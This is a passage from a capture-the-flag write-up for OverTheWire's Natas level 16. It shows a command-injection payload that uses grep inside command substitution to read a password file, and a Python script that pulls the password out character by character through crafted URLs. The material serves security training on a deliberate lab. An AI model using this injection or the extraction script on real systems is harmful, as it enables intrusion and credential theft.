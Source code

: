 This time we will give it the flag ```-E``` to allow the use of regular expressions.


So, for example, we can use the *regex wildcard* **.\*** to search for a char (say *a*) in the password string:


```
$(grep -E ^a.* /etc/natas_webpass/natas17)banana
```

If *grep II* finds a match, it returns the char. In the other case, it won't return any output.

Once *grep II* is over, *grep I* will do the regular search for the pattern we passed (banana).

If *grep II* didn't return anything, a banana will be banana. If *grep II* returns a match, a banana will have this extra string added to it (abanana).

Now we can extend this logic to each char in the password string.

#### Crafting the attack:

By inspection, we see that the crafted URL to check, say, *a* in the first char, should look like this:

> http://natas16.natas.labs.overthewire.org/?needle=$(grep%20-E%20^a.*%20/etc/natas_webpass/natas17)banana&submit=Search

So we can write the following script:


```python
import requests
import string

def brute_force_password(LENGTH, AUTH, CHARS, URL1, URL2):
 password = ''
 for i in range(1, LENGTH+1):
 for j in range (len(CHARS)):
 print("Position %d: Trying %s ..." %(i, CHARS[j]))
 r = requests.get( ( URL1 + password + CHARS[j] + URL2 ), auth=AUTH)
 if 'bananas' not in r.text:
 password += CHARS[j]
 print("Password so far: " + password)
 break
 return password

if __name__ == '__main__':
 # authorization: login and password
 AUTH = ('natas16', '****************************')

 # BASE64 password and 32 bytes
 CHARS = string.ascii_letters + string.digits
 LENGTH = 32

 # crafted url
 URL1 = 'http://natas16.natas.labs.overthewire.org?needle=$(grep -E ^'
 URL2 = '.* /etc/natas_webpass/natas17)banana&submit=Search'

 print(brute_force_password(LENGTH, AUTH, CHARS, URL1, URL2))
```


[Wargames]: http://overthewire.org/wargames/
[Natas]: http://overthewire.org/wargames/natas/
[robots.txt]: http://en.wikipedia.org/wiki/Robots_exclusion_standard
[referer]: http://en.wikipedia.org/wiki/HTTP_referer
[tampermonkey]: https://chrome.google.com/webstore/detail/tampermonkey/dhdgffkkebhmkfjojejmpbldmpobfkfo?hl=en
[modify-headers]: https://chrome.google.com/webstore/detail/modify-headers-for-google/innpjfdalfhpcoinfnehdnbkglpmogdi?hl=en-US
[edit this cookie]: http://www.editthiscookie.com/start/
[strrev]: http://php.net/manual/en/function.strrev.php
[passthru]: http://php.net/manual/en/function.passthru.php
[OS command injection]: https://www.owasp.org/index.php/OS_Command_Injection
[preg_match]: http://php.net/manual/en/function.preg-match.php
[readfile()]: http://php.net/manual/en/function.readfile.php
[system]: http://php.net/manual/en/function.system.php
[Burp Suite]: http://portswigger.net/burp/
[FireBug]: http://getfirebug.com/
[this is how you run it]: http://portswigger.net/burp/help/suite_gettingstarted.html
[SQL Injection]: https://www.owasp.org/index.php/SQL_Injection
[SQL wildcards and keywords]: http://www.w3schools.com/sql/sql_wildcards.asp
[SUBSTRING]: http://www.1keydata.com/sql/sql-substring.html
[request]: http://docs.python-requests.org/en/latest/user/quickstart/
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[sleep()]: http://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep
[is_numeric]: http://php.net/manual/en/function.is-numeric.php
[SESSION_ID]: http://en.wikipedia.org/wiki/Session_ID
[$_REQUEST]: http://php.net/manual/en/reserved.variables.request.php
[session_starts()]: http://php.net/manual/en/function.session-start.php
[source code is available]: https://github.com/mvonsteinkirch/CTFs-Gray-Hacker-and-PenTesting/tree/master/Web_Exploits